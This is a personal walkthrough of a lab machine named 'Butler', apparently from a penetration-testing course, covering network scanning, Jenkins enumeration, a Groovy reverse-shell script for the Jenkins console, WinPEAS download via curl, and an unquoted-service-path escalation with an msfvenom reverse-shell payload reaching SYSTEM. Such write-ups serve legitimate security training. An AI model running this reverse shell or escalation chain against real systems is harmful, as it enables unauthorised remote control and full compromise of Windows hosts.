

# Butler

## arp-scan und netdiscover

```
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b4:a1:05, IPv4: 10.0.2.5
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.2        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.3        08:00:27:33:52:51       (Unknown)
10.0.2.80       08:00:27:49:14:0a       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.830 seconds (139.89 hosts/sec). 4 responded
```

```
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -r 10.0.2.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor
 10.0.2.3        08:00:27:33:52:51      1      60  PCS Systemtechnik GmbH
 10.0.2.80       08:00:27:49:14:0a      1      60  PCS Systemtechnik GmbH 
```

**Both scans show the same results. Victim IP address: 10.0.2.80**


## nmap

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-26 01:06 EDT
Nmap scan report for 10.0.2.80
Host is up (0.00038s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
|_http-server-header: Jetty(9.4.41.v20210516)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:49:14:0A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 21H2
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:49:14:0a (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
|_clock-skew: 8h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-26T14:10:27
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms 10.0.2.80

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 245.76 seconds
```


```
┌──(kali㉿kali)-[~]
└─$ sudo nmap 10.0.2.80 -T4 -A -p 135,139,445,5040,7680,8080,49664-49668,49670     

[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-26 01:27 EDT
Nmap scan report for 10.0.2.80
Host is up (0.00062s latency).

PORT      STATE  SERVICE       VERSION
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
5040/tcp  open   unknown
7680/tcp  closed pando-pub
8080/tcp  open   http          Jetty 9.4.41.v20210516
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49670/tcp open   msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:49:14:0A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 21H2
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-26T05:30:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:49:14:0a (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

TRACEROUTE
HOP RTT     ADDRESS
1   0.62 ms 10.0.2.80

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 175.21 seconds
```

**Closed ports:**

* 7680, pando-pub

Pando was a file transfer system for big files (up to 1 GB) that had a couple of
security issues and is no longer maintained, see the [Wikipedia article](https://en.wikipedia.org/wiki/Pando_(application)).

Port 7680 only showed up after 2nd scan (after seeing it in TCM's walkthrough).
How can I avoid something like this to happen?

**Open ports:**

* 135: Microsoft Windows RPC
* 139: Microsoft Windows netbios-ssn
* 445: microsoft-ds?
* 5040: unknown
* 8080: HTTP (Jetty 9.4.41.v20210516)
* 49664-49668, 49670: Microsoft Windows RPC

**Operating system details:** Microsoft Windows 10 1709 - 21H2

**Host script results:** nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>,
SMB2


## SMB (Ports 139, 445)

### Manual Test

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ smbclient -L //10.0.2.80/
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ smbclient -L //10.0.2.80 -I 10.0.2.80
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED
```


## NetBIOS (Ports 139)

**Google search for `"netbios-ssn vulnerabilities"`:**

### What does NetBIOS ssn do?

NetBIOS Session Service (NBSS) is a protocol to connect two computers to
transmit heavy data traffic. It is mostly used for printer and file services
over a network.

See also this [webpage](https://wirexsystems.com/resource/protocols/netbios/).

### Übersicht mit KI

NetBIOS Session Service (NetBIOS-SSN) vulnerabilities arise from the protocol's
inherent design, particularly its lack of encryption and reliance on cleartext
communication. This makes it susceptible to various attacks, including
information disclosure, denial of service, and remote code execution.
Specifically, attackers can exploit NetBIOS-SSN to gather sensitive information
like computer names, IP addresses, and user IDs, potentially leading to targeted
attacks. Furthermore, attackers can manipulate NetBIOS packets to cause denial
of service, or even execute arbitrary code on vulnerable systems.

Here's a breakdown of the vulnerabilities:

1. Information Disclosure: NetBIOS-SSN lacks encryption, making it easy for
attackers to intercept and read transmitted data. Tools like nbstat can be used
to enumerate NetBIOS information, revealing computer names, IP addresses, and
user IDs. This information can be leveraged to identify potential targets for
further attacks.

2. Denial of Service (DoS): Attackers can exploit weaknesses in how NetBIOS
handles packets, causing a target system to become unresponsive. Specifically,
crafted NetBT Session Service packets can trigger a denial of service condition.

3. Remote Code Execution: A vulnerability in Microsoft's implementation of
NetBIOS Session Service (CVE-2017-0161) allows remote attackers to execute
arbitrary code on the target system. This is achieved by sending specially
crafted NetBT Session Service packets.

4. NetBIOS Spoofing: In certain scenarios, NetBIOS responses can be spoofed,
potentially leading to hijacked network traffic or bypassed security mechanisms.
This vulnerability (CVE-2016-3213) can be exploited to render untrusted content
in a browser.

5. Exploitation through SMB: NetBIOS is often used in conjunction with Server
Message Block (SMB) for file and printer sharing. Attackers can leverage
vulnerabilities in SMB, such as the EternalBlue exploit, to gain access to
systems using NetBIOS for communication.

*Mitigation Strategies:*

* Disable NetBIOS: The most effective mitigation is to disable NetBIOS over
TCP/IP, especially on systems exposed to the internet.

* Block NetBIOS traffic: If NetBIOS is necessary, block it at the firewall,
restricting its use to specific IP addresses or subnets.

* Enable SMB signing: Implementing SMB signing can help prevent
man-in-the-middle attacks

* Keep systems updated: Regularly patching systems with security updates is
crucial to address known vulnerabilities.

* Disable unnecessary services: Disable or remove NetBIOS from network
interfaces that don't require it.

* Use strong passwords and authentication: Implement strong password policies
and multi-factor authentication.

* Segment the network: Consider segmenting the network to limit the impact of a
potential NetBIOS compromise. 

* Monitor network traffic: Monitor NetBIOS traffic for suspicious activity and
potential attacks.


## Microsoft Directory Service (Port 445)

**Google search for `"microsoft ds 445"`:**

### Übersicht mit KI

Microsoft-DS (Microsoft Directory Service) oder auch bekannt als Port 445, ist
ein Netzwerkport, der für die Server Message Block (SMB)-Freigabe von Dateien
und Druckern über TCP/IP verwendet wird. SMB ist ein Netzwerkprotokoll, das von
Microsoft für den Dateizugriff und die Druckerfreigabe innerhalb eines Netzwerks
entwickelt wurde. Port 445 ermöglicht es Windows-Computern, Ressourcen wie
Dateien und Drucker im selben Netzwerk gemeinsam zu nutzen, ohne die
Notwendigkeit älterer Protokolle.

Erläuterung:

* SMB (Server Message Block): SMB ist ein Netzwerkprotokoll, das es Anwendungen
ermöglicht, auf Dateien und Ressourcen auf einem Server im Netzwerk zuzugreifen
und diese gemeinsam zu nutzen.

* Port 445: Dieser Port wird verwendet, um SMB-Verbindungen über TCP/IP
herzustellen, was eine effiziente Kommunikation im Netzwerk ermöglicht.

* Microsoft-DS: Dies ist die Bezeichnung für die Microsoft-Implementierung von
SMB, die über Port 445 kommuniziert.

Wichtige Punkte:

* Sicherheit: Obwohl Port 445 für die gemeinsame Nutzung von Ressourcen wichtig
ist, kann er auch ein Sicherheitsrisiko darstellen, wenn er nicht ordnungsgemäß
gesichert ist.

* Firewall: Es ist wichtig, den Zugriff auf Port 445 über die Firewall zu
kontrollieren, um unbefugten Zugriff auf das Netzwerk zu verhindern.

* NetBIOS: Früher wurde SMB über das NetBIOS-Protokoll auf Port 139 verwendet.
Port 445 wurde eingeführt, um SMB direkt über TCP/IP zu ermöglichen, was 
effizienter ist.

Zusammenfassend lässt sich sagen, dass Port 445 eine wichtige Rolle bei der
Dateifreigabe und dem Netzwerkzugriff in Windows-Umgebungen spielt, aber eine
sorgfältige Konfiguration und Überwachung ist erforderlich, um die Sicherheit zu
gewährleisten.


## HTTP (Port 8080)

### Gobuster

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ gobuster dir -u http://10.0.2.80:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x .txt, .php, .js, .* --no-error -q
Error: the server returns a status code that matches the provided options for non existing urls. http://10.0.2.80:8080/8c9edc93-02f6-4606-9d97-5a3b4a8e5a9c => 403 (Length: 620). To continue please exclude the status code or the length
```


### Dirb

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ dirb http://10.0.2.80:8080/ /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jun 25 15:39:30 2025
URL_BASE: http://10.0.2.80:8080/
WORDLIST_FILES: /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt

-----------------

GENERATED WORDS: 81628                                                         

---- Scanning URL: http://10.0.2.80:8080/ ----
+ http://10.0.2.80:8080/login (CODE:200|SIZE:2028)                                                                
(!) WARNING: All responses for this directory seem to be CODE = 403.                                              
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Wed Jun 25 15:41:31 2025
DOWNLOADED: 140 - FOUND: 1
```


### Manual Test


Maybe we can find login credentials with a brute force attack. Default login
credentials could make our life easier when we run a brute force attack with
`BurpSuite`.


**Google search for "Jenkins exploit"**:

* [Github repo](https://github.com/gquere/pwn_jenkins) covering several Jenkins
vulnerabilities
* The Jenkins site on [hacktricks](https://www.hacktricks.wiki/) does not exist
any more in the form shown in TCM's walkthrough.
* This is a rather recent [blog
post](https://www.hackingarticles.in/jenkins-penetration-testing/) from an
Indian security researcher.


### Brute Force Attack with Burp Suite





### Groovy Reverse Shell

Google search for `jenkins script console reverse shell` showed the following
[Github repo](https://github.com/Brzozova/reverse-shell-via-Jenkins) as the
second hit. The repo contained a Groovy script that worked properly -- in contrast
to the one that TCM had used successfully in 2021, but which crashed my attack
victim.

```
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

Before we run the Groovy script in Butler, we need to set up a `netcat` listener
on our attack machine with `nc -nvlp <PORT NUMBER>`. Running the script will
then give us a low privilege shell as user `butler`:


### Privilege Escalation with WinPEAS

Analogous to `LinPEAS` for Linux, we can upload the script `WinPEAS` to the
victim machine to enumerate possibilities of privilege 


```
c:\Users\butler\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler\Downloads

08/14/2021  05:23 AM    <DIR>          .
08/14/2021  05:23 AM    <DIR>          ..
08/14/2021  05:23 AM        16,013,912 WiseCare365_5.6.7.568.exe
               1 File(s)     16,013,912 bytes
               2 Dir(s)   9,190,080,512 bytes free
```


```
┌──(kali㉿kali)-[~]
└─$ mv ~/Downloads/winPEASx64_ofs.exe ~/Capstone/Butler 
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ cd Capstone/Butler
                                                                                                                    
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
    The Microsoft operating system is full of command line tools that help to
    perform administrative tasks. (...) Why reinvent the wheel, if a tool can
    achieve what you need? (...) The purpose of this tool is to dump and display
    certification authority (CA) information, manage certificates and keys.
    This is a command line tool that accepts a lot of parameters.i (...)

    But, it is possible to use the tool to perform an important task for attackers:
    To fetch data from the Internet! Indeed, many Microsoft tools are able to fetch
    an online file using a URL schema (ftp://, http://, etc). I presume you already
    know that, in every dialogue box used to open/save a file, you can provide a
    URL: (...)
```
[source](https://isc.sans.edu/diary/A+Suspicious+Use+of+certutilexe/23517)

and

```
    Windows 10 includes curl.exe: (...)
```
[source](https://techcommunity.microsoft.com/blog/containers/tar-and-curl-come-to-windows/382409)


```
c:\Users\butler\Downloads>curl http://10.0.2.5/winPEASx64_ofs.exe -o winpeas.exe
curl http://10.0.2.5/winPEASx64_ofs.exe -o winpeas.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 9776k  100 9776k    0     0   167M      0 --:--:-- --:--:-- --:--:--  170M

c:\Users\butler\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler\Downloads

06/29/2025  12:30 PM    <DIR>          .
06/29/2025  12:30 PM    <DIR>          ..
06/29/2025  12:30 PM        10,010,624 winpeas.exe
08/14/2021  05:23 AM        16,013,912 WiseCare365_5.6.7.568.exe
               2 File(s)     26,024,536 bytes
               2 Dir(s)   9,181,114,368 bytes free
```

We can run `winpeas.exe` with limited privileges (to begin with, see one of the
previous machines -- better double-check with elevated privileges later) to
enumerate all ways to get to a root shell.

**FINDING:**

```
(...)

    WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected
    YOU CAN MODIFY THIS SERVICE: AllAccess
    File Permissions: Administrators [Allow: AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [Allow: AllAccess])                                                                                                              
    In order to optimize system performance,Wise Care 365 will calculate your system startup time.
   =================================================================================================                

(...)
```

The `WiseBootAssistant` is run with administrator privileges. If a path with
spaces is used without quotes, Windows will try to find the executable starting
at the shortest possible version up until the first space, then extend the path
by the next word, etc. If we have write access to a folder with a space in the
folder name that is located above the executable, we can exploit this and place
our own (malicious) executable there to have it executed instead of the original
file. See [Windows Unquoted Service Path
Enumeration](https://techcommunity.microsoft.com/discussions/windows-security/windows-unquoted-service-path-enumeration---is-this-still-a-case-in-modern-windo/3298358).

We create a reverse shell with `msfvenom` as shown below. LHOST and LPORT are
the IP and port of the listener on our attack machine.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.5 LPORT=7777 -f exe > Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes


┌──(kali㉿kali)-[~]
└─$ mv Wise.exe ./Capstone/Butler

c:\Users\butler\Downloads>curl http://10.0.2.5/Wise.exe -o Wise.exe
curl http://10.0.2.5/Wise.exe -o Wise.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7168  100  7168    0     0   307k      0 --:--:-- --:--:-- --:--:--  350k
```

We then place it in a folder from which we want to serve the files to the victim
machine via a Pythons HTTP server.

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.2.80 - - [29/Jun/2025 15:42:13] "GET /Wise.exe HTTP/1.1" 200 -
```

The last line above indicates that we have downloaded the reverse shell with
`curl`:

```
c:\Users\butler\Downloads>curl http://10.0.2.5/Wise.exe -o Wise.exe
curl http://10.0.2.5/Wise.exe -o Wise.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7168  100  7168    0     0   307k      0 --:--:-- --:--:-- --:--:--  350k
```

**Note to myself:** Next time, download the file to the correct folder right
away. Moving files with long folder names from the command line is annoying!

```
c:\Users\butler\Downloads>move Wise.exe c:\"Program Files (x86)"\Wise\ 
```

Now we create the listener on port 7777 of our attack machine with `nc -nvlp
7777`. Then we stop and restart the `WiseBootAssistant` service as follows,
which will start the reverse shell with admin privileges instead of the actual
service:

```
c:\Program Files (x86)\Wise>sc stop WiseBootAssistant
sc stop WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x1388

c:\Program Files (x86)\Wise>sc query WiseBootAssistant
sc query WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

c:\Program Files (x86)\Wise>sc start WiseBootAssistant
```

This will stall, and if we check the status of our listener on port 7777, the
reverse shell has actually made a connection with administrator privileges:

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.80] 49709
Microsoft Windows [Version 10.0.19043.2364]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd c:\users\butler\desktop
cd c:\users\butler\desktop

c:\Users\butler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler\Desktop

08/14/2021  04:54 AM    <DIR>          .
08/14/2021  04:54 AM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)   9,181,450,240 bytes free

c:\Users\butler\Desktop>mkdir I_was_here
mkdir I_was_here
```


**Mission accomplished.**


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
